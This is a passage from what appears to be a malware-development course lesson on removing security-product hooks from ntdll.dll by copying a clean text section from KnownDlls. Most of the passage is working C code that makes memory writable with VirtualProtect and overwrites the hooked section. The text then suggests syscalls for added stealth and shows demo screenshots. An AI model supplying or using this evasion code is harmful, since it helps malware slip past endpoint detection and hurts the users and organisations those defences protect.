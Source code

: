 ```c
		return FALSE;

//---------------------------------------------------------------------------------------------------------------------------
	
	DWORD dwOldProtection = NULL;

	// making the text section writable and executable
	if (!VirtualProtect(pLocalNtdllTxt, sNtdllTxtSize, PAGE_EXECUTE_WRITECOPY, &dwOldProtection)) {
		printf("[!] VirtualProtect [1] Failed With Error : %d \n", GetLastError());
		return FALSE;
	}

	// copying the new text section 
	memcpy(pLocalNtdllTxt, pRemoteNtdllTxt, sNtdllTxtSize);

	// rrestoring the old memory protection
	if (!VirtualProtect(pLocalNtdllTxt, sNtdllTxtSize, dwOldProtection, &dwOldProtection)) {
		printf("[!] VirtualProtect [2] Failed With Error : %d \n", GetLastError());
		return FALSE;
	}

	return TRUE;
}
```

### Improving The Implementation

The current implementation unhooks `ntdll.dll` using WinAPIs. For a stealthier implementation, direct or indirect syscalls should be used to perform unhooking. This will be left as an objective for the reader.

### Demo

The mapped ntdll.dll file from the KnownDlls directory.

![h1](https://maldevacademy.s3.amazonaws.com/images/Advanced/ntdll-unhooking-knowndlls-218529831-d561ae0a-5e2b-4da9-9eb6-a4301c970693.png)  

The hooked ntdll.dll text section to be replaced.

![h2](https://maldevacademy.s3.amazonaws.com/images/Advanced/ntdll-unhooking-knowndlls-318529838-7c90c7e7-efd9-4dcb-965f-0b562e1e32d5.png)  

The text section base address of the unhooked ntdll.dll.

![h3](https://maldevacademy.s3.amazonaws.com/images/Advanced/ntdll-unhooking-knowndlls-418529851-010d8412-8dce-4855-bfb8-fb083f7a15ee.png)  

Replacing the text section.

![h4](https://maldevacademy.s3.amazonaws.com/images/Advanced/ntdll-unhooking-knowndlls-518529888-b486838f-b284-46e5-83d4-54cfe050fed0.png)